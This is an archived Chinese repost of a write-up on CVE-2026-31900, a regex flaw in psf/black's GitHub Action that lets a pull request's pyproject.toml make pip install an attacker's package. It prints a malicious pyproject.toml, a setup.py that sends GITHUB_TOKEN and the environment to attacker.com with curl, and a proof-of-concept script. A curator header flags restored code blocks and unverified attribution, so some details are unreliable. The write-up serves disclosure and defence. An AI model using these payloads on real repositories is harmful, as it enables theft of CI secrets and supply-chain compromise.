




## 2026-10-03 缺失内容恢复

本轮已按公开原文逐段恢复原有 29 处空代码块中的 23 处，仍有 6 处无法确认原文对应内容。恢复只填入已有空围栏，原有正文、解释、代码和公开测试值均保留；原归档已经存在的占位符不猜补。下文早期校订中关于代码缺失的描述属于恢复前状态，本次逐块处理结果见仓库审计清单 docs/reviews/20261003-empty-block-dispositions.json。本库未执行这些代码，也未据恢复内容将文章标记为已复现。 恢复的验证脚本会启动 pip 子进程；pip 的 --dry-run 不保证不联网，因此原文“不会产生网络请求”的表述不能作为运行保证。

## 核对与使用边界

- 分类更正：正文研究对象为 psf/black GitHub Action；目录中的语言/协议或其他产品名不能代替实际受影响产品。本次只更正元数据和分类建议，原材料保持原路径。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：FixBlack26.3.0; use_pyproject true; untrusted PR file checked out; affected lower bound missing

代码与实验材料：Almost every file path/regex/workflow/payload/patch code block empty; only narrative and screenshot claim

来源证据范围：No primary advisory/patch/original researcher URL; repost first-person claim may misattribute discovery

- **结论使用边界（1）**：Severe code-loss makes advertised regex/root-cause/PoC analysis non-reproducible。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Misfiled under Git; PR triggering/approval/token secrets depend on workflow event and permissions, not automatic all-fork access。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（3）**：Blank auto-updated action ref and mitigation field; no fixed-version evidence link。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

> 来源补回（2026-10-03）：本轮 6 处缺损按 [同题公开来源](https://www.gm7.org/archives/51032) 的对应文字补入；这只确认文本对应，不是本库的复现结果。

#  CVE-2026-31900：一个过于宽松的正则表达式如何在 psf/black 的 GitHub Action 中导致 RCE  
haidragon
                    haidragon  安全狗的自我修养   2026-03-11 04:05  
  
# 官网：http://securitytech.cc  
  
  
  
# 引言  
  
Black  
 是 Python 生态中著名的代码格式化工具，被称为 **“The uncompromising Python code formatter（毫不妥协的 Python 代码格式化工具）”**  
，由   
Python Software Foundation  
 创建。  
  
它在 GitHub 上拥有 **41k+ stars**  
，累计下载量超过 **22 亿次**  
，被全球成千上万的开源项目使用，是 Python 代码格式化的事实标准。  
  
Black 的设计目标非常简单：  
- 只做 **一件事**  
：格式化代码  
  
- 不执行用户输入  
  
- 不发起网络请求  
  
- 不与外部服务交互  
  
因此在大多数开发者心中，它属于 **完全安全的开发工具**  
。  
  
但正是这个假设，让这次发现变得非常有趣。  
  
在一次常规开源安全研究中，我发现了 **CVE‑2026‑31900**  
。  
  
这是一个 **高危漏洞（CVSS 8.7）**  
，存在于 Black 官方的 **GitHub Action**  
 中。  
  
攻击者只需：  
- 提交一个 **Pull Request**  
  
- **不需要维护者交互**  
  
- **不需要仓库权限**  
  
就可以在目标仓库的 **CI Runner 上执行任意代码（RCE）**  
。  
  
漏洞的根本原因：  
  
**一个过于宽松的正则表达式。**  
# 跟随我的 SAST 工具发现漏洞  
  
我的开源安全研究方法比较专注：  
- 只研究 **Python 项目**  
  
- 使用自己开发的 SAST 工具扫描代码  
  
工具：  
  
PySpector  
  
该工具会对我手动挑选的仓库进行静态分析。  
  
在一次扫描中，PySpector 标记了一段代码（后来证明是误报）。  
  
但在同一输出中，一个文件引起了我的注意：  
```
action/main.py
```  
  
这个路径明显属于 **GitHub Action**  
。  
  
在这个文件中我发现了一段正则表达式：  
```
BLACK_VERSION_RE = re.compile(r"^black([^A-Z0-9._-]+.*)$", re.IGNORECASE)
```  
  
在 GitHub Action 中，处理 **用户输入**  
 的正则表达式通常用于：  
- 校验输入  
  
- 清理输入  
  
于是我开始思考：  
  
**这个正则到底想阻止什么？它真的阻止了吗？**  
# 漏洞触发的 Workflow 配置  
  
漏洞只在某个配置启用时存在。  
  
Black 的 GitHub Action 支持一个参数：  
```
use_pyproject
```  
  
当设置为：  
```
true
```  
  
Action 会从仓库中的 **pyproject.toml**  
 读取 Black 的版本号，而不是写死在 workflow YAML 中。  
  
典型的 vulnerable workflow：  
```
name: black
on: [pull_request]
jobs:
  black:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: psf/black@stable
        with:
          use_pyproject: true
```  
  
这个配置其实很合理：  
  
遵循 **DRY（Don't Repeat Yourself）原则**  
  
既然 pyproject.toml  
 已经指定版本，就没必要在 YAML 再写一次。  
  
问题在于：  
  
**当 pyproject.toml 来自 PR 时，它是攻击者控制的。**  
# 为什么 use_pyproject 很危险  
  
危险来自两个事实：  
  
1️⃣ **pyproject.toml 从哪里读取**  
  
当 GitHub Action 触发：  
```
pull_request
```  
  
步骤：  
```
- uses: actions/checkout@v4
```  
  
会 checkout **PR 分支代码**  
。  
  
因此读取的文件：  
```
pyproject.toml
```  
  
来自 **PR 作者**  
。  
  
也就是说：  
  
**攻击者可以完全控制这个文件。**  
  
代码读取方式：  
```
with Path("pyproject.toml").open("rb") as fp:
    pyproject = tomllib.load(fp)
```  
  
没有：  
- 分支验证  
  
- 信任边界  
  
- 基准分支检查  
  
2️⃣ 读取后会发生什么  
  
代码会搜索 Black 的依赖版本：  
```
for array in itertools.chain(
    pyproject.get("dependency-groups", {}).values(),
    pyproject.get("project", {}).get("dependencies"),
    *pyproject.get("project", {}).get("optional-dependencies", {}).values(),
):
    version = find_black_version_in_array(array)
```  
  
然后应用刚才的正则表达式。  
# 正则表达式漏洞分析  
  
漏洞代码：  
```
BLACK_VERSION_RE = re.compile(r"^black([^A-Z0-9._-]+.*)$", re.IGNORECASE)
```  
  
目标是匹配：  
```
black==24.1.0
black>=23.0
```  
  
并提取版本号。  
  
问题在于：  
```
re.IGNORECASE
```  
  
字符类：  
```
[^A-Z0-9._-]
```  
  
意味着：  
  
排除：  
- 字母  
  
- 数字  
  
- 点  
  
- 下划线  
  
- 横线  
  
**但允许：**  
- 空格  
  
- @  
  
- :  
  
- /  
  
- URL  
  
# Python 依赖语法（PEP 508）  
  
Python 依赖允许 URL 形式：  
```
package @ https://example.com/dist/package-1.0.tar.gz
```  
  
于是我构造 payload：  
```
black @ https://files.pythonhosted.org/packages/../pyspector-0.1.6.tar.gz
```  
  
匹配结果：  
```
^black          = "black"
[^A-Z0-9._-]+   = " @ "   (space, @, /, none of these are excluded)
.*              = "https://attacker.com/malicious.tar.gz"
group(1)        = " @ https://attacker.com/malicious.tar.gz"
```  
  
最终构造 pip 命令：  
```
req = f"black{extra_deps}{version_specifier}"
# "black @ https://attacker.com/malicious.tar.gz"
pip_proc = run(
    [str(ENV_BIN / "python"), "-m", "pip", "install", req],
    # etc...
)
```  
# 恶意 pyproject.toml  
  
攻击 payload 只有一个文件：  
```
[project]
name = "project-name"
version = "1.0.0"
dependencies = [
    "black @ https://attacker.com/malicious_black.tar.gz"
]
```  
  
没有：  
- shellcode  
  
- binary exploit  
  
- 混淆  
  
只是一个 **URL 依赖**  
。  
# 恶意 Python 包  
  
恶意包可以非常简单：  
```
from setuptools import setup
import os
# These runs during pip install, on the victim's CI runner
os.system("curl https://attacker.com/exfil?token=$GITHUB_TOKEN")
os.system("env | curl -X POST https://attacker.com/exfil -d @-")
setup(name="black", version="xx.x.x")
```  
  
注意：  
  
包名必须是：  
```
setup(name="black", version="xx.x.x")
```  
  
否则 pip 会在 **安装后校验失败**  
。  
  
但此时 **payload 已执行**  
。  
# 在 CI Runner 中执行  
  
为了验证漏洞，我创建了测试仓库：  
- 启用 vulnerable workflow  
  
- fork 提交恶意 PR  
  
Action log：  
  
  
  
日志显示：  
- pip 执行构建  
  
- build backend 已运行  
  
- 然后才因为包名不匹配失败  
  
攻击代码 **已经执行**  
。  
# Token 与 Secret 窃取场景  
  
真实攻击场景：  
  
开源项目维护者配置：  
- 每个 PR 运行 Black  
  
- 使用 use_pyproject: true  
  
- 触发器：  
  
```
pull_request
```  
  
攻击流程：  
  
1️⃣ 攻击者 fork 仓库  
  
2️⃣ 添加恶意 pyproject.toml  
  
3️⃣ 提交 PR  
  
GitHub Action 自动执行。  
  
CI 环境可能包含：  
- GitHub Token  
  
- AWS / GCP 凭据  
  
- Deployment keys  
  
- API keys  
  
- PyPI 发布 token  
  
攻击者可窃取这些 secrets。  
# 更严重的情况  
  
如果使用：  
```
pull_request_target
```  
  
权限更高。  
  
攻击者可以：  
- 修改仓库  
  
- 注入供应链攻击  
  
- 网络扫描内部资源  
  
- 植入持久访问  
  
# 静态 PoC  
  
PoC 演示：  
  
1️⃣ 正则绕过  
  
2️⃣ pip 接受 URL 依赖  
```
import re
import subprocess
import sys
BLACK_VERSION_RE = re.compile(r"^black([^A-Z0-9._-]+.*)$", re.IGNORECASE)
MALICIOUS_ENTRY = "black @ https://attacker.com/malicious.tar.gz"
SAFE_WHEEL_URL  = "https://files.pythonhosted.org/packages/e4/3d/51bdb3ecbfadfaf825ec0c75e1de6077422b4afa2091c6c9ba34fbfc0c2d/black-26.1.0-py3-none-any.whl"
# Part 1: RegEx bypass
m = BLACK_VERSION_RE.match(MALICIOUS_ENTRY)
assert m, "regex did not match"
pip_req = f"black{m.group(1)}"
print(f"pyproject.toml entry : {MALICIOUS_ENTRY}")
print(f"regex group(1)       : {m.group(1)!r}")
print(f"pip install arg      : {pip_req}")
assert "attacker.com" in pip_req
print("[+] regex passes attacker URL to pip install\n")
# Part 2: pip accepts URL-form requirement (dry-run)
result = subprocess.run(
    [sys.executable, "-m", "pip", "install", "--dry-run", "--quiet",
     f"black @ {SAFE_WHEEL_URL}"],
    capture_output=True, text=True,
)
assert result.returncode == 0, f"pip rejected requirement:\n{result.stderr}"
print("[+] pip accepted URL-form requirement (dry-run, exit 0)")
```  
# 修复方案  
  
漏洞已在 **Black v26.3.0**  
 修复。  
  
修复方式：  
- 移除宽松正则  
  
- 使用严格版本校验  
  
- 拒绝 URL 依赖  
  
使用：  
```
psf/black@stable
```  
  
的用户已自动修复。  
  
如果 workflow 固定版本：  
  
需要 **尽快升级**  
。  
  
临时解决方案：  
  
删除：  
```
use_pyproject: true
```  
# 披露时间线  
  
漏洞报告发送给：  
```
security@tidelift.com
```  
  
流程：  
- 当天确认  
  
- 6 小时内验证漏洞  
  
- 立即开始修复  
  
4 天内完成：  
- patch 发布  
  
- advisory 发布  
  
漏洞编号：  
- CVE‑2026‑31900  
  
- GHSA-v53h-f6m7-xcgm  
  
# 总结  
  
**CVE-2026-31900**  
（作者戏称为 **Black Eye**  
）展示了一个典型问题：  
  
漏洞并不在 Black 本身。  
  
而是在：  
  
**GitHub Action 与配置文件之间的边界。**  
  
典型危险模式：  
```
read from repo + pass to installer/executor
```  
  
任何 CI 系统中出现：  
```
读取仓库文件
→ 传递给执行器
```  
  
都需要严格审计。  
  
安全原则：  
  
**使用 Allowlist 验证输入而不是 Denylist。**  
- 公众号:安全狗的自我修养  
  
- vx:2207344074  
  
- http://  
gitee.com/haidragon  
  
- http://  
github.com/haidragon  
  
- bilibili:haidragonx  
  
-   
  
##   
  
  
  
  
  
  
****-   
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
